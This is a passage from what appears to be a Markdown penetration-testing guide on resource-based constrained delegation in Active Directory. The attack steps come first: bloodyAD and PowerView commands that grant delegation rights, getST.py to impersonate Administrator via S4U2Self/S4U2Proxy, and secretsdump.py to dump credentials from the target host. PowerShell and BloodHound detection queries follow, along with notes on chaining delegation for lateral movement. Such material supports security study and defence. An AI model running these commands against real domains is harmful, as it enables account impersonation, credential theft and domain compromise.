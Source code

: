 ```bash
# Using bloodyAD
bloodyAD --host 10.10.10.10 -u user -p password -d domain add rbcd -t target$ -f evil$

# Using PowerView
Set-ADComputer -Identity "target$" -PrincipalsAllowedToDelegateToAccount "evil$"
```

#### Step 4: Perform Delegation Attack

```bash
# S4U2Self + S4U2Proxy attack
getST.py -spn "cifs/target.domain.local" -impersonate "Administrator" "domain/evil$:password"

# Use the ticket
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass 'target$@target.domain.local'
```

### RBCD Detection

#### PowerShell Detection

```powershell
# Find services with RBCD configured
$rbcd = Get-ADComputer -Filter {msDS-AllowedToActOnBehalfOfOtherIdentity -ne $null} -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

Write-Host "Services with RBCD configured:"
foreach ($service in $rbcd) {
    Write-Host "Service: $($service.Name)"
    Write-Host "Allowed Principals: $($service.'msDS-AllowedToActOnBehalfOfOtherIdentity')"
}
```

#### BloodHound Queries

```cypher
// Find RBCD relationships
MATCH (c:Computer)-[r:AllowedToAct]->(t:Computer) RETURN c, r, t

// Find computers that can be delegated to
MATCH (c:Computer) WHERE c.allowedtoact = true RETURN c
```

### RBCD Attack Variations

#### Self-RBCD Attack
- Computer accounts can modify their own RBCD settings
- Patched in Windows updates around August/September 2022
- Still works with other accounts for RBCD

#### RBCD Chain Attacks
- Use RBCD to move between multiple services
- Create chains of delegation for lateral movement
- Can lead to domain compromise

---